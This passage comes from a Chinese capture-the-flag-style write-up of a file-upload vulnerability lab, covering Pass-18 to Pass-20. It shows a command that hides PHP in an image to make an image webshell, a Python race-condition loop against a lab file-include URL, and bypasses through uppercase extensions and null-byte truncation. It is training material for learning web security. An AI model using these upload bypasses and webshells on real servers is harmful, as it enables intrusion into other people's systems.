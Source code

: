 > 返回状态码200有时候可能没有创建成功，可以把break删除，或者统计多个来结束

![image-20221201162234066](http://image.jh2ing.com/image-20221201162234066.png)

#### Pass-18

同样也是条件竞争，只是限制了php文件上传，上传之后重命名，这里使用图片马上传，在重命名时使用条件竞争的方法。

制作图片马

```
copy 1.jpg/b + compete.php test01.jpg
```

然后按照上面的方法进行，这里注意的是上传路径不在upload里面，一切以环境正常上传路径为主，我正常上传重名后图片的地址为`http://192.168.73.139/upload1669884432.jpg`

编写python脚本

```python
import requests

while True:
    response = requests.get("http://192.168.73.139/include.php?file=uploadtest01.jpg")
    text = response.text
    if "Warning" not in text:
        print("OK")
```

![image-20221201165300919](http://image.jh2ing.com/image-20221201165300919.png)

#### Pass-19

用户自定义文件名，通过源码发现用户输入的文件名后缀根据黑名单来进行限制，所以这里直接可以用大写的`PHP`进行绕过。

![image-20221202165316590](http://image.jh2ing.com/image-20221202165316590.png)

后面在文件路径拼接中，也可以使用00截断绕过。

![image-20221202170027322](http://image.jh2ing.com/image-20221202170027322.png)

#### Pass-20

判断保存名称是否为空，如果为空就用原图片名，否则用保存名称；`strtolower()`函数将文件名全部变成小写，` explode()`函数通过`.`来将文件名分成数组

```php
 $file = empty($_POST['save_name']) ? $_FILES['upload_file']['name'] : $_POST['save_name'];
        if (!is_array($file)) {
            $file = explode('.', strtolower($file));
        }
```

`end()`获取数组中最后的元素，也就是后缀名来判断是否是图片

```php
 $ext = end($file);
 $allow_suffix = array('jpg','png','gif');
 if (!in_array($ext, $allow_suffix)) {
     $msg = "禁止上传该后缀文件!";
 }
```
